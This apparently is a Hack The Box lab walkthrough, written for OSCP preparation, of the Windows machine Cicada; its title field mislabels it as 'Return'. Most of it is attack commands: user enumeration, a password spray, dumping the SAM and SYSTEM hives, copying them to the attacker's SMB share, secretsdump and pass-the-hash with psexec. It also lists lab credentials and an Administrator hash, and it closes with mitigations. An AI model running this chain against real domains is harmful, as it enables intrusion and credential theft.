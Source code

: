 ```yaml
---
title: Return
date: 2025-05-30
categories: [oscp, HTB]
tags: [oscp-preparation, walkthrough, HTB, AD, unauth-user-enumeration, SeBackupPrivilege-privesc] 
image: return.png
media_subpath: /assets/img/posts/2025-05-25-returnHTB/
---
```


## Introduction

In this walkthrough, I tackled *Cicada*, an easy Windows machine focused on Active Directory enumeration and privilege escalation. I began by enumerating the domain and identifying valid users. Exploring accessible SMB shares revealed plaintext passwords stored in files. I then performed a password spray attack, which granted me access. With user privileges, I identified that `SeBackupPrivilege` was enabled. I exploited this privilege to dump sensitive system files and ultimately gained a full SYSTEM shell.

## Nmap

### TCP

Run a quick Nmap TCP scan:

```bash
sudo nmap -sV $IP --open
```

![image.png](image.png)

### UDP

Check top 100 UDP ports:

```bash
sudo nmap -sU -F $IP
```

![image.png](image%201.png)

### Full Port Scan

```bash
sudo nmap -sV -sC -p- $IP -Pn -n -v --open
```

## Services

### Port 53

Version: 

Domain: **cicada.htb**

- **dig any DNS records**
    
    ```bash
    dig any cicada.htb @$IP
    ```
    
    ![image.png](image%202.png)
    
- **Zone Transfer**
    
    ```bash
    dig axfr @$IP cicada.htb
    ```
    
    ![image.png](image%203.png)
    

### Port 139/445

- **smbclient**
    
    ![image.png](image%204.png)
    
- **netexec**
    
    ```bash
    sudo nxc smb $IP -u 'randomuser' -p '' --shares
    ```
    
    ![image.png](image%205.png)
    
    - HR directory
        
        ```bash
        Default password - Cicada$M6Corpb*@Lp#nZp!8
        ```
        

### Port 5985 (WinRM)

## AD Initial Enumeration

### User Enumeration

Unauthenticated

```bash
./kerbrute_linux_amd64 userenum -d <domain> --dc $IP /usr/share/seclists/Usernames/xato-net-10-million-usernames.txt -t 70
```

Nothing found here.

### Port 389/3268

```bash
ldapsearch -H ldap://$IP -x -s base -b '' "(objectClass=*)" "*" +
```

Nothing interesting

```powershell
ldapsearch -x -H ldap://$IP -D '' -w '' -b "DC=<RHOST>,DC=local" 
```

Nothing interesting

## Exploitation

I made a search also with `impacket-lookupsid`

```bash
impacket-lookupsid 'cicada.htb/guest'@cicada.htb -no-pass | grep SidTypeUser | cut -d' ' -f 2 | cut -d'\' -f 2 | tee users
```

![image.png](image%206.png)

Then checked on users:

```bash
sudo nxc smb $IP -u users -p 'Cicada$M6Corpb*@Lp#nZp!8' --continue-on-success
```

![image.png](image%207.png)

I tried getting a shell but didn’t succeed.

```bash
evil-winrm -i $IP -u michael.wrightson -p 'Cicada$M6Corpb*@Lp#nZp!8'
```

Further user enumeration reveal password stored in user description:

```bash
sudo nxc smb $IP -u 'michael.wrightson' -p 'Cicada$M6Corpb*@Lp#nZp!8' --users
```

![image.png](image%208.png)

Unfortunately this account also cannot be used with evil-winrm.

But enumerating shares I see now we can read `DEV` directory:

```bash
sudo nxc smb $IP -u 'david.orelious' -p 'aRt$Lp#7t*VQ!3' --shares
```

![image.png](image%209.png)

I found a script inside it where cleartext credentials of `emily.oscars` can be found.

Using these credentials finally I can get shell with evil-winrm.

```bash
evil-winrm -i $IP -u emily.oscars -p 'Q!3@Lp#M6b*7t*Vt'
```

## Privilege Escalation

Checking for privileges I have I found out that I have `SeBackupPrivilege` and `SeRestorePrivilege`:

![image.png](image%2010.png)

I can just leverage SeBackupPrivilege to copy SAM and SYSTEM registry hives and dump SAM hashes, and if local user login is allowed on the target get a shell as NT Authority\System with Administrator hash and psexec.

```powershell
reg save HKLM\SYSTEM SYSTEM.SAV

reg save HKLM\SAM SAM.SAV
```

Transfer files over our machine:

```bash
sudo impacket-smbserver share -smb2support .
```

```bash
copy SAM.SAV \\10.10.14.12\share\SAM.SAV
copy SYSTEM.SAV \\10.10.14.12\share\SYSTEM.SAV
```

```bash
secretsdump.py -sam SAM.SAV -system SYSTEM.SAV LOCAL
```

![image.png](image%2011.png)

```bash
impacket-psexec Administrator@$IP -hashes :2b87e7c93a3e8a0ea4a581937016f341
```

![image.png](image%2012.png)

## Credentials

```bash
michael.wrightson : Cicada$M6Corpb*@Lp#nZp!8

david.orelious : aRt$Lp#7t*VQ!3

emily.oscars : Q!3@Lp#M6b*7t*Vt
```

## Mitigation

- Limit the use of `SeBackupPrivilege` to trusted administrative accounts only.
- Avoid storing plaintext passwords in file shares; enforce proper credential hygiene.
- Implement account lockout policies to prevent password spray attacks.
- Regularly audit SMB shares for sensitive data exposure.
- Apply least privilege principles and monitor for unusual privilege assignments.
